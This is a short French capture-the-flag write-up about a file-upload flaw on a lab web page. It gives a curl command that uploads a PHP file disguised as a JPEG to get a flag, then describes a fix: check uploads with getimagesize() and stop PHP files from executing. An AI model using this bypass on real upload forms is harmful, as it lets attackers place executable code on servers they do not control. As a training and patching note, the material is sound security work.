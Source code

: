 # Vulnérabilité

Page file upload: `http://192.168.1.19/index.php?page=upload`

Il suffit de faire une requête curl pour uploader un fichier .php en lui faisant croire que c'est une image

`curl -X POST -H 'Content-Type: multipart/form-data' --form 'Upload=Upload' --form 'uploaded=@test.php;type=image/jpeg' 'http://192.168.1.19/index.php?page=upload'`

et on obtient le flag dans le code html de la page

# Solution

Pour patcher cette faille, il suffit de vérifier que le fichier qu'on upload est bien une image, on peut utiliser la fonction `getimagesize()` pour obtenir des informations sur le fichier uploadé et avoir le type MIME du fichier et vérifier que ça correpond bien à une image, de plus il faut empêcher l'exécution des fichiers php ou autre
